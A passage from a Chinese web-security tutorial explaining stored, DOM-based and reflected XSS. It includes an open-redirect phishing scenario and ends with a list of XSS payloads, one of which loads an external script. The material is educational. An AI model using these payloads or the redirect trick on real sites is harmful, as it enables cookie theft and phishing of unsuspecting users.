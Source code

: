 ![图片](https://ws1.sinaimg.cn/large/006tKfTcgy1fnqtxapmpwj31f00aydj4.jpg)

当其他用户访问当前页面的时候，cookie 就会被盗取（demo 的 url 随意写的，因此respose 会 502）：

![图片](https://ws1.sinaimg.cn/large/006tKfTcgy1fnqtz8y3yrj317c0zck0k.jpg)

###### 3.2 DOM 型 XSS

简单理解就是它的输出点在 DOM，和后端完全没有关系，攻击者只要诱导别人去点击有 XSS 代码的 URL 就能实现攻击。看下面的 demo：

原始代码

![图片](https://ws2.sinaimg.cn/large/006tKfTcgy1fnqw9mtkh7j31g80oujyh.jpg)

带有 XSS 代码的 URL，只要将这个链接发出去，诱导其他人点击就能造成攻击，这里同样用了上面例子的 payload (还挺好用的 ^_^)

![图片](https://ws1.sinaimg.cn/large/006tKfTcgy1fnqwao6jdwj31g40s6ai9.jpg)

###### 3.3 反射型 XSS

反射型 XSS，也是通过给别人发送带有 XSS 代码的链接，诱导其他人点击进而造成攻击。与 DOM 型 XSS 不同的是，这类型攻击一般出现在搜索页面，需要将注入代码从目标服务器通过错误信息、搜索结果等方式“反射”回来，在受害者浏览器上执行，而 DOM 型 XSS 是不需要经过目标服务器的，明白这点就很容易区分 反射性 XSS 和 DOM 型 XSS 了。

看下面这个经典案例：

> 如下登录页面，我们为了用户能在登录之后访问到之前浏览的页面，所以在url加入了一个service参数，但是未对它做任何校验，可能会被钓鱼网站利用。

![图片](https://ws3.sinaimg.cn/large/006tKfTcgy1fnqwuksg5sj30fd04u0ss.jpg)

**该攻击实现条件：**

1. 用户点击了如下连接：
   https://cas.utest.qq.com/qqlogin?service=http%3A%2F%2Fpianzi.com；
2. 后端未对service参数做校验，这个连接可以正常跳转到上图的页面；
3. 用户输入帐号登录后，跳转到 [pianzi.com；]()
4. 这是个钓鱼网站，通过网站风格欺骗，对用户进行引导性操作；
5. 用户输入一些有用的信息；
6. 在不知不觉之间，用户泄漏了自己的信息。

### 4. XSS payload

上面有谈到窃取 cookie 的 demo 中谈到了 XSS payload, XSS payload 是什么？

> XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用已完成各种具体功能的恶意脚本，被称为”XSS payload"。

> XSS Payload实际上就是JavaScript脚本（还可以是Flash或其他富客户端的脚本），所以任何Javascript脚本能实现的功能，XSS Payload都能做到。

举几个列子，非常多：

```
<script>alert(1)</script>
<iframe src="javascript:alert(1)">
<iframe onload=alert(1)>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(1)">111</a>
<marquee onscroll=alert(1)>
<object data="javascript:alert(1)">
<svg onload=alert(1)>
<body onload=alert(1)>
<select name="" onmouseover=alert(1)>
<script>window.setAttribute('onload',alert('xss')</script>
Javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))
<img src=1 onerror=with(body)createElement('script').src="外部JS地址">
```
